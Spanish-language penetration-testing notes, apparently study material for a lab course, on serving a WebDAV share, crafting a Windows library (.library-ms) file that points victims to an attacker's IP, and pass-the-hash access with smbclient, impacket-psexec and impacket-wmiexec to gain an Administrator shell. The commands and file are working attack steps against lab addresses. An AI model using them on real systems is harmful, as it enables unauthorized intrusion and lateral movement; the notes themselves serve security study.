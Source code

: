## Windows Library Files

### Dependencias 

```sh
pip3 install wsgidav 
```

Nos permite compartir un directorio compartido WebDAV 

```sh
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```

Para crear la librería se utilizará `xfreerdp`

Vamos a crear un archivo con nuestro propia ip 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

## Pass the hash

Esto nos permite ver cuáles archivos podemos acceder con el hash
```cmd
smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
get file.txt
```
En este caso vamos a obtener un shell interactivo, psexec tratará de buscar un share con permisos de escritura, sube un ejecutable, lo registra como un servicio y lo inicia.
```sh
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
```
Otro tool puede ser
```sh
impacket-wmiexec -hashes  00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
```
